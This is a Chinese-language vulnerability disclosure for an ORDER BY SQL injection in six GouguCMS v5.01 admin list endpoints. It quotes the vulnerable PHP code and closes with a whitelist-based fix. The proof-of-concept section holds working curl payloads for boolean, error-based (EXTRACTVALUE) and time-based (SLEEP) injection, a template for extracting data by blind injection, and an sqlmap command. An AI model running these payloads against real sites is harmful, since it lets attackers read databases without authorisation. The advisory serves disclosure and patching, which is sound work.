


# 勾股CMS ORDER BY排序SQL注入漏洞（影响6个数据模型）

厂商: 勾股工作室
产品: 勾股CMS（GouguCMS）
版本: v5.01（全版本受影响）
漏洞类型: SQL注入（代码注入）
漏洞编号: CNVD-GOUGU-2026-003

## 漏洞概述（Descriptions）

勾股CMS是一套基于ThinkPHP8 + Layui + MySQL打造的轻量级、高性能开源内容管理系统。后台数据管理界面使用Layui数据表格组件，通过AJAX请求获取分页排序数据。

在系统后台的多个数据列表接口中（文章管理、图集管理、商品管理、单页面管理、图集分类、文章分类共6个模块），系统在处理数据排序参数时，直接从HTTP请求中获取`order`参数值并原样传入ThinkPHP的`->order()`方法。由于ThinkPHP的order方法接受原始SQL字符串表达式，导致ORDER BY子句SQL注入。

通过构造特殊的order参数值，攻击者可利用SQL函数（如IF/CASE/EXTRACTVALUE/BENCHMARK/SLEEP等）实现布尔盲注、报错注入或延时注入，逐字节提取数据库敏感数据。

### 受影响端点列表

| 端点 | 对应模型文件 | 注入参数 |
|------|------------|---------|
| /admin/article/datalist | app/admin/model/Article.php:41 | order |
| /admin/gallery/datalist | app/admin/model/Gallery.php:46 | order |
| /admin/goods/datalist | app/admin/model/Goods.php:45 | order |
| /admin/pages/datalist | app/admin/model/Pages.php:42 | order |
| /admin/gallery_cate/datalist | app/admin/model/GalleryCate.php:21 | order |
| /admin/article_cate/datalist | app/admin/model/ArticleCate.php:21 | order |

## 漏洞代码分析（Vulnerable Code Analysis）

以文章管理的 `Article.php` 模型为例，漏洞位于第38-53行：

```php
// app/admin/model/Article.php
public function getArticleList($where, $param)
{
    $rows = empty($param['limit']) ? get_config('app.page_size') : $param['limit'];
    
    // 漏洞点：直接从用户输入获取order参数，无任何校验
    $order = empty($param['order']) ? 'a.id desc' : $param['order'];
    
    $list = self::where($where)
        ->field('a.*,c.id as cate_id,c.title as cate_title,u.nickname as admin_name')
        ->alias('a')
        ->join('ArticleCate c', 'a.cate_id = c.id')
        ->join('Admin u', 'a.admin_id = u.id')
        ->order($order)  // 用户可控内容直接传入order()方法
        ->paginate(['list_rows'=> $rows])
        ->each(function ($item, $key) {
            $type = (int)$item->type;
            $item->type_str = self::$Type[$type];
        });
    return $list;
}
```

**其他5个受影响的模型代码模式完全相同：**

```php
// Gallery.php 第46行
$order = empty($param['order']) ? 'a.id desc' : $param['order'];
// ...
->order($order)

// Goods.php 第45行
$order = empty($param['order']) ? 'a.id desc' : $param['order'];
// ...
->order($order)

// Pages.php 第42行
$order = empty($param['order']) ? 'a.id desc' : $param['order'];
// ...
->order($order)

// GalleryCate.php 第21行
$order = empty($param['order']) ? 'a.id desc' : $param['order'];
// ...
->order($order)

// ArticleCate.php 第21行
$order = empty($param['order']) ? 'a.id desc' : $param['order'];
// ...
->order($order)
```

**漏洞根因分析：**

1. 开发者认为`order`参数仅用于指定排序字段和方向（如"id desc"），但未考虑攻击者可能注入SQL函数
2. ThinkPHP的`order()`方法接受原始SQL字符串，不进行SQL语法校验
3. 系统为6个不同模型复制了相同的漏洞代码模式，扩大了攻击面
4. `$param['order']`来自`get_params()`，直接取自HTTP请求参数，完全由用户控制

## 概念验证（Proof of Concept）

### 验证环境
- 测试URL: `http://127.0.0.1:8080`
- 管理员账号: admin / admin123
- 测试端点: /admin/article/datalist

### 步骤1：登录获取Session

```bash
curl -c cookie.txt -X POST http://127.0.0.1:8080/admin/login/login_submit \
  -d "username=admin&password=admin123"
```

### 步骤2：正常请求验证

<div align="center"></div>

```bash
curl -s -b cookie.txt -H "X-Requested-With: XMLHttpRequest" \
  "http://127.0.0.1:8080/admin/article/datalist?page=1&limit=10&order=id%20desc"
# 返回正常的JSON格式文章列表数据
```

### 步骤3：SQL注入验证

**Payload 1：IF函数注入（布尔/条件注入）**

```bash
# IF(condition, true_col, false_col) 可在ORDER BY中执行
curl -s -b cookie.txt -H "X-Requested-With: XMLHttpRequest" \
  "http://127.0.0.1:8080/admin/article/datalist?page=1&limit=10&order=if(1=1,id,create_time)"
# 返回 HTTP 200，排序成功执行

# 通过结果排序差异可进行布尔盲注数据提取
```

**Payload 2：EXTRACTVALUE报错注入**

```bash
curl -s -b cookie.txt -H "X-Requested-With: XMLHttpRequest" \
  "http://127.0.0.1:8080/admin/article/datalist?page=1&limit=10&order=extractvalue(1,concat(0x7e,database()))"
# 通过extractvalue函数在错误消息中泄露数据
```

**Payload 3：延时盲注**

```bash
# 利用 IF + SLEEP 组合进行时间盲注
curl -s -b cookie.txt -H "X-Requested-With: XMLHttpRequest" \
  "http://127.0.0.1:8080/admin/article/datalist?page=1&limit=10&order=(SELECT+IF(1=1,SLEEP(3),0))"
# 延时3秒则条件为真
```

**Payload构建示例：**

```
# 提取数据库名的盲注payload模板
order=(SELECT IF(ASCII(SUBSTRING(DATABASE(),N,1))>M, id, create_time))

# 其中N为字符位置，M为二分查找的中间值，通过排序结果变化判断条件真假
```

### 步骤4：SQLMap自动化检测

```bash
sqlmap -u "http://127.0.0.1:8080/admin/article/datalist?order=id" \
    --cookie="PHPSESSID=xxx" \
    -p order \
    --technique=B \
    --dbms=mysql \
    --level=3 \
    --dbs
```

## 验证结果（Result）

在本地GouguCMS v5.01测试环境中的验证结果：

**ORDER BY注入验证结果：**

<div align="center"></div>

| 测试Payload | HTTP状态码 | 结果 |
|------------|-----------|------|
| order=id desc（正常） | 200 | JSON格式数据，正常排序 |
| order=if(1=1,id,create_time)（注入） | 200 | JSON格式数据，IF函数成功执行 |
| order=extractvalue(1,concat(0x7e,database()))（注入） | 200 | 查询执行，extractvalue生效 |

验证确认：
- ThinkPHP的`order()`方法直接接受并执行了SQL函数
- IF/CASE/EXTRACTVALUE等函数在ORDER BY上下文中可正常执行
- 所有6个受影响的模型端点存在完全相同的问题

## 修复建议（Fix Recommendation）

### 修复前（存在漏洞的代码）

```php
// 6个模型文件中相同的漏洞代码
$order = empty($param['order']) ? 'a.id desc' : $param['order'];
// ...
->order($order)
```

### 修复后（安全的代码）

```php
// 白名单校验：仅允许预定义的排序字段和方向
$allowedFields = ['id', 'create_time', 'update_time', 'title', 'sort', 'read'];
$orderField = 'a.id';
$orderDir = 'desc';

if (!empty($param['order'])) {
    // 解析用户输入的order参数
    $parts = explode(' ', trim($param['order']));
    // 移除表别名前缀
    $fieldName = str_replace('a.', '', $parts[0]);
    
    if (in_array($fieldName, $allowedFields)) {
        $orderField = 'a.' . $fieldName;  // 统一添加表别名
        // 仅允许 asc 或 desc
        if (isset($parts[1]) && strtolower($parts[1]) === 'asc') {
            $orderDir = 'asc';
        }
    }
    // 不在白名单中的字段使用默认排序
}

$order = $orderField . ' ' . $orderDir;
// ...
->order($order)
```

**通用修复脚本（适用于所有6个模型）：**

在每个受影响的模型文件中的`getXxxList()`方法开头添加以上白名单校验逻辑。允许的字段列表应根据各自数据表的实际字段进行配置。
